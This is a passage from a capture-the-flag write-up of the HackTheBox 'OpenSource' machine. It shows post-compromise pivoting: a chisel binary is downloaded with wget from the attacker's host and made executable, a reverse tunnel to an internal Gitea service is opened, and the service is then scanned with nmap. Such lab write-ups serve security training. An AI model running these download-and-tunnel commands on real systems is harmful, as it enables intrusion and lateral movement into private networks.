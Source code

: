 Yep, they are up.

Let's do a **local port forwarding** via `chisel` on port 3000 for `172.17.0.1`:

**Transfer `chisel` binary:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

~ # wget http://10.10.14.42:8000/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

**Setup a `chisel` server listener:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse
```

**Connect to `chisel` server on the stable shell session, and background it:**
```
~ # /tmp/chisel client 10.10.14.42:8888 R:3001:172.17.0.1:3000 &
```

Now, we should able to interact with `172.17.0.1` on port 3000!

**Let's do a quick `nmap` scan to see what is it:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nmap -sT -T4 -sC -sV -p3001 127.0.0.1
[...]
PORT     STATE SERVICE VERSION
3001/tcp open  nessus?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: i_like_gitea=87643b347bf7586b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=GCnbkrFfWgFhpI2te5vMzVVekLY6MTY2MzQxNjUwMDAxOTM5NzA0OQ; Path=/; Expires=Sun, 18 Sep 2022 12:08:20 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 17 Sep 2022 12:08:20 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title> Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL29wZW5zb3VyY2UuaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9vcGVuc291cmNlLmh0YjozMDAwL2Fzc
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Set-Cookie: i_like_gitea=4b2905b5159d6662; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=6u_yj_zGP1qjB3IbChggIaFIEf06MTY2MzQxNjUwMDY0NDU4MDA3Nw; Path=/; Expires=Sun, 18 Sep 2022 12:08:20 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 17 Sep 2022 12:08:20 GMT
|_    Content-Length: 0
[...]
``` 